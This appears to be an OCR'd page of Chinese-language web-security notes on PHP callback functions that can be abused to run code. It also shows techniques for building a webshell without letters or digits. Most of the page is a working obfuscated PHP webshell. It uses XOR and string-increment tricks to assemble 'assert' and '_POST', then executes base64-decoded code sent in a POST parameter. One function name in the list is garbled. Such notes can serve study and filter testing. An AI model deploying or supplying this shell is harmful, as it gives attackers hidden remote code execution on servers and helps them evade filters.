 
---
4.1.7.3. 回调函数
- call_user_func_array
- call_user_func
- array_filter
- array_walk
- array_map
- registregister_shutdown_function
- register_tick_function
- filter_var
- filter_var_array
- uasort
- uksort
- array_reduce
- array_walk
- array_walk_recursive


---
PHP的字符串可以在进行异或、自增运算的时候，会直接进行运算，故可以使用特殊字符来构成Shell。

```
@$_++; 
$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/"); 
@${$__}[!$_](${$__}[$_]);
$_=[]; 
$_=@"$_"; // $_='Array'; 
$_=$_['!'=='@']; // $_=$_[0]; 
$___=$_; // A
$__=$_; 
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; 
$___.=$__; // S 
$___.=$__; // S
$__=$_; 
$__++;$__++;$__++;$__++; // E
$___.=$__;
$__=$_; $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__; 
$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__; 
$____='_'; 
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__; 
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____; 
$___(base64_decode($_[_]));
```

---